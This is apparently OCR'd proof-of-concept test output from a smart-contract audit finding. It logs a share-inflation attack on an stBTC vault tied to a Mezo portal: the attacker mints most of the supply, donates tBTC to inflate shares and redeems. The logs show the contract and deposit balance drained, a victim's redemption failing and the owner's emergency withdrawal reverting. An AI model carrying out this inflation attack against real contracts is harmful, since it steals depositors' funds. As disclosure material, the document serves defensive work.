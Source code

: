 @> tBTC in stBTC: 0 @> tBTC in disptacher: 0 @> dispatcher depositBalance: 1002104435351260000000

***

@> Attacker mints to acquire 95% of totalSupply

***

@> tBTC in stBTC: 19083940916090104046548 @> tBTC in disptacher: 0 @> dispatcher depositBalance: 1002104435351260000000

***

@> Attacker owns: 95% of totalSupply @> Attacker inflates his shares so that it eat up all depositBalance in Mezo portal @> Required donation: 1054846774053957894737 @> Attacker's shares now worth: 20086045351441364046548

***

@> tBTC in stBTC: 19083940916090104046548 @> tBTC in disptacher: 1054846774053957894737 @> dispatcher depositBalance: 1002104435351260000000

***

@> Assert that when redeeming, attacker owed assets would eat up all tBTC in stBTC contract and depositBalance in Mezo portal @> Attacker's initial capital: 20138787690144061941285 @> Attacker's final balance: 20035955462784403038950 @> Total loss: 102832227359658902335 @> Cost per TVL: 0.102616278036544073

***

@> tBTC in stBTC: 0 @> tBTC in disptacher: 1054846774053957894737 @> dispatcher depositBalance: 0

***

@> BOB tries to redeem his shares @> Expect revert... @> BOB failed to redeem his shares @> Owner tries to call emergency function @> Expect revert DepositNotFound @> Owner failed to call emergency function from Mezo portal withdrawal \`\`\`

